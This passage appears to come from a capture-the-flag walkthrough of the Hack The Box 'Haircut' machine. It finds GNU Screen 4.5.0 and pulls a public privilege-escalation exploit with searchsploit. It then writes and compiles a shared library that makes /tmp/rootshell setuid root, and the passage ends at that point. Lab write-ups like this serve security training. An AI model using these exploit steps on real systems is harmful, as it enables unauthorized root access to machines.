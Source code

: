 We see an old version of screen, let's check it out:

```text
www-data@haircut:/$ /usr/bin/screen-4.5.0 -v
Screen version 4.05.00 (GNU) 10-Dec-16
```

Check searchsploit for exploits:

```text
root@kali:~/htb/haircut# searchsploit screen 4.5.0
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                    | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                              | linux/local/41152.txt
--------------------------------------------------------------------------------- ---------------------------------
```

As suspected we have found something, let's check it out:

```text
root@kali:~/htb/haircut# searchsploit -m linux/local/41154.sh
  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
File Type: Bourne-Again shell script, ASCII text executable, with CRLF line terminators
```

Looking at the script, we will need to manually create the files instead of letting the script do it:

```text
root@kali:~/htb/haircut# cat << EOF > /tmp/libhax.c
> #include <stdio.h>
> #include <sys/types.h>
> #include <unistd.h>
> __attribute__ ((__constructor__))
> void dropshell(void){
>    chown("/tmp/rootshell", 0, 0);
>    chmod("/tmp/rootshell", 04755);
>    unlink("/etc/ld.so.preload");
>    printf("[+] done!\n");
> }
> EOF
```

File libhax.c creating containing the above, now need to compile it:

```text
root@kali:~/htb/haircut# gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:10:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
   10 |     chmod("/tmp/rootshell", 04755);
      |     ^~~~~
root@kali:~/htb/haircut# rm -f /tmp/libhax.c
```
